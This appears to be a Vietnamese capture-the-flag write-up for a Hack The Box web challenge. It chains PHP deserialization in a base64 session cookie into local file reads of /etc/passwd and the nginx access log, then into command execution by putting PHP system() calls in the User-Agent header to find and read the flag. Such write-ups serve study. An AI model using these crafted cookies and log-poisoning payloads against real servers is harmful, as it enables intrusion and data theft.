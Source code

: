 Trong cookie của request thấy có `PHPSESSID`:
```
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9
```
Decode bằng base64 ta được:
```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```
Sửa lại như sau:
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```
Encode bằng base64:
```
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30
```
Gửi lại request:
```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
Ok, ta đã đọc được file `/etc/password`, giờ chỉ cần thay đường dẫn thành đường dẫn file flag là xong. Tuy nhiên flag lại là random filename với dạng `flag_xxxxx`, vậy làm sao để biết chính xác tên file là gì? Không lẽ lại brute-force flag filename? (._."), cách này không khả thi.

Tiếp tục xem source code, ở file `nginx.conf` trong config ta thấy ứng dụng có lưu access_log:
```conf
http {
    server_tokens off;
    log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
    access_log /var/log/nginx/access.log docker;
```

Access log lấy thông tin của một số header và lưu vào file mà không hề validate, bây giờ hãy thử đọc file `/var/log/nginx/access.log` xem thế nào.

Sửa lại PHPSESSID:
```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```
Encode bằng base64:
```
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ
```
Gửi lại request:
```
167.172.55.94 - 500 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36" 
167.172.55.94 - 500 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36" 
167.172.55.94 - 500 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36" 
```
Bây giờ ta thử inject shell vào header xem thế nào, ta sẽ thử inject vào User-Agent:
```
User-Agent: <?php system('ls') ?>
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ
```
Response trả về như sau:
```
167.172.55.94 - 200 "GET / HTTP/1.1" "-" "index.html
index.php
models
static
```

Đến đây thì giờ tìm tên file flag và đọc thôi:
```
User-Agent: <?php system('ls%20/') ?>
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ
```
```
167.172.55.94 - 200 "GET / HTTP/1.1" "-" "bin
dev
entrypoint.sh
etc
flag_tiPsT
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```
Sửa lại PHPSESSID:
```
O:9:"PageModel":1:{s:4:"file";s:11:"/flag_tiPsT";}
```
Encode bằng base64:
```
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfdGlQc1QiO30
```
Gửi lại request:
```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```